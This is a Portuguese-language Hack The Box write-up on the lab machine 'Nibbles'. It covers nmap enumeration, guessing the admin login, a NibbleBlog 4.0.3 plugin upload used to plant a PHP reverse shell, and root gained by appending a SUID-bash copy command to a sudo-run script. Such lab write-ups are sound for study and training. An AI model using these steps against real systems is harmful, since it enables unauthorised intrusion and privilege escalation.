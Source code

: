 ```yaml
---
title:     "Hack The Box - Nibbles"
tags: [linux,easy, CVE 2015-6967, rootbash]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/1.jpg)

## Enumeration

Iniciamos o processo de enumeracao...

```
# Nmap 7.80 scan initiated Mon Jul 13 18:51:10 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/HTB-Linux/nibbles/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /root/HTB-Linux/nibbles/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.13s latency).
Scanned at 2020-07-13 18:51:11 EDT for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 13 18:51:26 2020 -- 1 IP address (1 host up) scanned in 15.55 seconds
```

Encontro duas portas abertas.... 80 e 22

Acessando o server apache na porta 80 encontro uma simples msg...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/2.jpg)

Olhando o source encontro um comentario que nos leva a uma applicacao `Nibblesblog`

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/3.jpg)

Accessando a aplicacao e pesquisando sobre ela, encontro duas exploracoes... se for a versao 3 existe multiplos `sqli` se for a 4 eu preciso de um usuario e senha para explorar.

entao, verifiquei logo se era possovel sqli mas depois de verificar, vi que nao era... entao, restava obter uma login valido..

tentei, varias WORDLISTS mas sem sucesso... a aplicacao sempre me bloqueava depois de algumas tentativas...

Resolvi entao, fazer manualmente algo do tipoo

```
admin:admin
admin:123456
admin:nibbles
admin:12345678                       --->>> LEMBRE-SE DE TENTAR O MAXIMO DE SENHAS (empresa@2020, nomedamaquina, UPPER, lower e etc.. AS pessoas costumam usar senhas faceis)
admin:password
admin:Passw0rd
admin:passw0rd!
```

na terceira tentativa eu consigo o acesso que precisava com o `admin:nibbles` , agora usanso a exploracao para a versao 4 de acordo com esse site, obtenho rapidamente uma reverse shell..

## Reverse Shell

***reference*** https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html


1 - acesse http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
2 -  em seguida, localize em seu kali um shell em php `locate php-reverse`
3 -  edite com seu ip e a porta desejada.
4 - ative o listen  na porta escolhida 
5 - faca o uplload da reverse shell
6 - e acesse sua reverse nesse link..  http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/4.jpg)

agora que temos nossa shell vamos escalar nossos privilegios

## Privilege Escalation

Usando algums tools para agilizaar o processo de PE encontro algo interessante, 

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/5.jpg)

entao, depois de extrair tenho acesso ao arquivo `monitor.sh`

adicionei uma nova linha nesse arquivo com o seguinte comando

`echo "cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash" >> monitor.sh`

logo em seguida executei

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/7.jpg)

navego entao ate o `\tmp` dou permissao de execucao ao nosso `rootbash` usando o seguinte comando `chmod +x rootbash`

e entao depois de ter feito isso, eh so executar `rootbash -p`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/8.jpg)




